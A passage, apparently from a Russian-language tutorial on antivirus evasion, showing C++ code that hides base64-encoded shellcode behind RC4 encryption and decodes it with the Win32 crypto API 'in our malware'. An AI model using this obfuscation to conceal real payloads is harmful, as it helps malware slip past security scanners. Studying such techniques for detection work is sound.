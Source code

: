 ![av-evasion](./images/65/2022-08-16_06-02.png){width="80%"}      

```cpp
unsigned char* plaintext = (unsigned char*)"/EiB5PD////o0AAAAEFRQVBSUVZIMdJlSItSYD5Ii"
"1IYPkiLUiA+SItyUD5ID7dKSk0xyUg"
"xwKw8YXwCLCBBwckNQQHB4u1SQVE+SI"
"tSID6LQjxIAdA+i4CIAAAASIXAdG9IAd"
"BQPotIGD5Ei0AgSQHQ41xI/8k+QYs0iEgB1"
"k0xyUgxwKxBwckNQQHBOOB18T5MA"
"0wkCEU50XXWWD5Ei0AkSQHQZj5B"
"iwxIPkSLQBxJAdA+QYsEiEgB0EFY"
"QVheWVpBWEFZQVpIg+wgQVL/4FhBWV"
"o+SIsS6Un///9dScfBAAAAAD5IjZX+"
"AAAAPkyNhQkBAABIMclBukWDVgf/"
"1UgxyUG68LWiVv/VTWVvdy1tZW93IQA9Xi4uXj0A";
unsigned char* key = (unsigned char*)"key";
unsigned char* ciphertext = (unsigned char *)malloc(sizeof(unsigned char) * 
strlen((const char*)plaintext));
RC4(plaintext, ciphertext, key, strlen((const char*)key), 
strlen((const char*)plaintext));
```

Итак, в нашей вредоносной программе мы делаем обратный процесс: сначала мы расшифровываем его через `RC4`, а затем декодируем через `base64`. Для процесса декодирования base64 я использовал Win32 crypto API:      

```cpp
#include <windows.h>
#include <wincrypt.h>
#pragma comment (lib, "crypt32.lib")

//...
//...
//...

int b64decode(const BYTE * src, unsigned int srcLen, char * dst, unsigned int dstLen) {
  DWORD outLen;
  BOOL fRet;
  outLen = dstLen;
  fRet = CryptStringToBinary( (LPCSTR) src, srcLen, CRYPT_STRING_BASE64, 
  (BYTE * )dst, &outLen, NULL, NULL);
  if (!fRet) outLen = 0;  // failed
  return (outLen);
}

```